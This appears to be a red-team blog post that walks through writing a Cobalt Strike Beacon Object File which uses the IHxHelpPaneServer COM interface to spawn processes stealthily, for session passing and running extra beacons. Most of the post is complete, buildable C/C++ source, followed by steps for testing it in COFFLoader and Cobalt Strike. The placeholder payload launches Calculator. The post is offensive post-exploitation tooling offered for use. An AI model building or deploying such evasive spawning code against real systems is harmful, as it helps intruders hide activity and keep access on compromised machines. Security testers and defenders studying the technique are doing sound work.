 ```yaml
---
layout: post
title: COM Process Spawner BOF
date: 2025-01-16 00:05:00 +0100
categories:
  - Red Team
  - Malware
author: kuom
---
```

This guide focuses on developing a Cobalt Strike Beacon Object File (BOF) for creating a COM (Component Object Model) process spawner.

This technique is useful during engagements for session passing and enabling the execution of multiple beacons simultaneously.

The main idea is to stealthily spawn a process in the current context using a legitimate Windows COM interface, `IHxHelpPaneServer`.
### Prerequisites Knowledge
A [Beacon Object File](https://hstechdocs.helpsystems.com/manuals/corects/impact/current/userguide/content/topics/appx_bof.htm) is a compiled C program written to a convention that allows it to execute within an agent process and use internal agent APIs. 
BOFs are a way to rapidly extend the Cobalt Strike agent with new post-exploitation features.

The [Microsoft Component Object Model](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact.
### Setting up the environment
There is a nice [Visual Studio BOF template](https://github.com/Cobalt-Strike/bof-vs) to easily develop BOFs.

Download the zip archive from GitHub and put it into `%USERPROFILE%\Documents\Visual Studio 2022\Templates\ProjectTemplates`. 
Now we can choose the BOF template from Visual Studio.
### Creating the BOF
For the creation of this BOF I found inspiration from this [PoC]( https://github.com/vxunderground/VXUG-Papers/blob/main/Stealthily%20Creating%20Processes/IHxHelpPaneServer.cpp.) from VX Underground.
Shoutout to them and to the author.

We start including needed headers file (`combaseapi` needed to work with COM) and by declaring actions to do on Debug case (`#pragma comment` indicates to the linker that ole32.lib is needed).
````
#include <Windows.h>
#include <combaseapi.h>
#include "base\helpers.h"

#ifdef _DEBUG
#include "base\mock.h"
#undef DECLSPEC_IMPORT  
#define DECLSPEC_IMPORT
#pragma comment(lib, "ole32.lib")
#endif
````

C++ linkage mangles function names, which can prevent a Beacon Object File's (BOF) entry point from being correctly invoked. Using `extern "C"` ensures the functions contained in the curly braces have C linkage, avoiding these issues.

We then use the [DFR (Dynamic Function Resolution)](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm) convention to declare and call the OLE32 functions that we need in the code:
- `CoInitialize` -> initializes the COM library
- `CoCreateInstance` -> creates an instance of a COM object
- `CLSIDFromString` -> converts string into Class ID, needed to create COM objects
- `CoUninitialize` -> uninitializes the COM library
````
extern "C" {
#include "beacon.h"
    DFR(OLE32, CoInitialize);
#define CoInitialize OLE32$CoInitialize
    DFR(OLE32, CoCreateInstance);
#define CoCreateInstance OLE32$CoCreateInstance
    DFR(OLE32, CLSIDFromString);
#define CLSIDFromString OLE32$CLSIDFromString
    DFR(OLE32, CoUninitialize);
#define CoUninitialize OLE32$CoUninitialize
````

We define the `IHxHelpPaneServer` interface.
````
    struct __declspec(uuid("{8cec592c-07a1-11d9-b15e-000d56bfe6ee}"))
        IHxHelpPaneServer : public IUnknown {
        virtual HRESULT __stdcall DisplayTask(PWCHAR) = 0;
        virtual HRESULT __stdcall DisplayContents(PWCHAR) = 0;
        virtual HRESULT __stdcall DisplaySearchResults(PWCHAR) = 0;
        virtual HRESULT __stdcall Execute(const PWCHAR) = 0;
    };
````

We define a function to convert HRESULT to Win32 error code.
````
    DWORD Win32FromHResult(HRESULT Result) {
        if ((Result & 0xFFFF0000) == MAKE_HRESULT(SEVERITY_ERROR, FACILITY_WIN32, 0))
            return HRESULT_CODE(Result);

        if (Result == S_OK)
            return ERROR_SUCCESS;

        return ERROR_CAN_NOT_COMPLETE;
    }
````

We define a function to initialize the CLSID and IID identifiers associated with the `IHxHelpPaneServer` interface. It uses the `MyCLSIDFromString` function to obtain these identifiers from predefined GUID strings.
```
    HRESULT CoInitializeIHxHelpIds(LPGUID Clsid, LPGUID Iid) {
        HRESULT Result = S_OK;

        if (!SUCCEEDED(Result = CLSIDFromString(L"{8cec58ae-07a1-11d9-b15e-000d56bfe6ee}", Clsid)))
            return Result;

        if (!SUCCEEDED(Result = CLSIDFromString(L"{8cec592c-07a1-11d9-b15e-000d56bfe6ee}", Iid)))
            return Result;

        return Result;
    }
```

The `ComSpawn` function sets up the COM interface by initializing the necessary identifiers and then creates an instance of the `IHxHelpPaneServer` object.  It performs an operation on the object, in this case launching `CALC.EXE` (chosen because the Windows Calculator is commonly found on many Windows installations).  Afterward, it releases the object and uninitializes the COM library. 

The `go` function is the entry point of the program and simply calls `ComSpawn` to execute the logic described above.
```
DWORD ComSpawn() {
        HRESULT Result = S_OK;
        GUID CLSID_IHxHelpPaneServer;
        GUID IID_IHxHelpPaneServer;
        WCHAR pcUrl[256] = L"file:///C:/WINDOWS/SYSTEM32/CALC.EXE";
        IHxHelpPaneServer* Help = nullptr;

        if (!SUCCEEDED(Result = CoInitializeIHxHelpIds(&CLSID_IHxHelpPaneServer, &IID_IHxHelpPaneServer))) {
            return Win32FromHResult(Result);
        }

        if (!SUCCEEDED(Result = CoInitialize(NULL))) {
            return Win32FromHResult(Result);
        }

        if (!SUCCEEDED(Result = CoCreateInstance(CLSID_IHxHelpPaneServer, NULL, CLSCTX_ALL, IID_IHxHelpPaneServer, (PVOID*)&Help))) {
            CoUninitialize();
            return Win32FromHResult(Result);
        }

        Result = Help->Execute(pcUrl);
        if (FAILED(Result)) {
        }
        else {
        }

        if (Help)
            Help->Release();

        CoUninitialize();
        return Win32FromHResult(Result);
    }

    void go(char* args, int len) {
        ComSpawn();
    }
}
```
### Testing the BOF
As mentioned earlier, the Visual Studio BOF template makes it easy to test and debug BOFs directly within the IDE, removing the need for external tools.

We can simply press the Debug button to test our BOF, and it's a good idea to test both the x64 and x86 versions to ensure compatibility across different architectures.
![](/assets/com-spawner1.png)
### Building the BOF
We compile the object files switching from Debug to Release for both x64 and x86 architecture. 

After that, we test them using TrustedSec's COFFLoader, a tool designed to load and execute BOF; this allows us to test the functionality of the compiled BOFs in a controlled environment.

![](/assets/com-spawner2.png)

We can now test it within Cobalt Strike itself. Feel free to utilize this with Cobalt Strike and extend its functionality. 

Currently, I’m developing a new BOF, this time using the `IStandartActivator` COM interface, to facilitate process spawning in alternate sessions instead of the active one.
#### [Full snippet on GitHub](https://github.com/ohkuom/IHxHelpPaneServerBOF/)
